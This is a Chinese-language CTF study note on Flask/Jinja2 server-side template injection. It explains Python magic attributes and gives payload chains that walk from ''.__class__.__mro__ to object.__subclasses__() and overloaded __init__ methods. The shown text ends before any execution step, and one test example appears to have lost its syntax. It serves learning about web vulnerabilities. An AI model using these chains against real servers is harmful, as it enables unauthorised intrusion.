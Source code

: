 ```yaml
---
title: FlaskSSTI
layout: categories
date: 2020-03-15
tags: [CTF, Python,FlaskSSTI]
categories:
- [CTF, Python,]
comments: false
---
```

# FlaskSSTI

## 0x00魔术方法



- **dict**：保存类实例或对象实例的属性变量键值对字典
- **class**：返回调用的参数类型
- **mro**：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
- **bases**：返回类型列表
- **subclasses**：返回object的子类
- **init**：类的初始化方法
- **globals**：函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价

`__base__` 和 `__mro__` 都是用来寻找基类的。

## 0x01基本流程

可以利用`2`简单代码测试是否存在SSTI

使用魔术方法进行函数解析，再获取基本类object：

```
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

获取到基本类之后,可以继续使用subclasses获取object的子类:

```
object.__subclasses__()

#改变数字可以爆破
object.__subclasses__[10]
```

找到重载过的`__init__`类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的):

```
''.__class__.__mro__[2].__subclasses__()[99].__init__
''.__class__.__mro__[2].__subclasses__()[59].__init__
```
